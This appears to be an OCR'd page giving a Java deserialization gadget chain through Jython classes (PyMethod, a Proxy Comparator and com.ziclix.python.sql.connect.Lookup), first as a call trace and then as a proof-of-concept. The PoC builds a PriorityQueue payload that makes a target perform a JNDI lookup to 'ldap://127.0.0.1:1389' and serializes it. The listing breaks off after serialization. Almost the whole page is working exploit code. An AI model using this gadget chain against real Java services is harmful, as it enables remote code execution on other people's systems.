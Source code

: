 ```bash
java.io.ObjectInputStream.readObject
    java.util.PriorityQueue.readObject
        java.util.PriorityQueue.heapify
            java.util.PriorityQueue.siftDownUsingComparator
                com.sun.proxy.$Proxy4.compare
                    org.python.core.PyMethod.invoke
                        org.python.core.PyMethod.__call__
                            org.python.core.PyMethod.instancemethod___call__
                                org.python.core.PyObject.__call__
                                    com.ziclix.python.sql.connect.Lookup.__call__
```

poc

```bash
package org.example;  

import org.python.core.PyMethod;  
import org.python.core.PyString;  
import sun.misc.Unsafe;  

import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.util.Comparator;  
import java.util.PriorityQueue;  

public class Lookup {  
    public static void main(String[] args) throws Exception{  
        Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
        unsafeField.setAccessible(true);  
        Unsafe unsafe = (Unsafe) unsafeField.get(null);  

        PyMethod pyMethod = (PyMethod) unsafe.allocateInstance(PyMethod.class);  
        pyMethod.__func__ = new com.ziclix.python.sql.connect.Lookup();  
        pyMethod.im_class = new PyString().getType();  

        Comparator c = (Comparator) Proxy.newProxyInstance(  
                Lookup.class.getClassLoader(),  
                new Class[]{Comparator.class},  
                pyMethod  
        );  
        PriorityQueue priorityQueue = new PriorityQueue(2, c);  

        Object [] queue = new Object[]{  
                new PyString("ldap://127.0.0.1:1389"),  
                1  
        };

        Field f = priorityQueue.getClass().getDeclaredField("queue");  
        f.setAccessible(true);  
        f.set(priorityQueue, queue);  
        Field f2 = priorityQueue.getClass().getDeclaredField("size");  
        f2.setAccessible(true);  
        f2.set(priorityQueue, 2);  

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(priorityQueue);  

        byte[] bytes = byteArrayOutputStream.toByteArray();  
```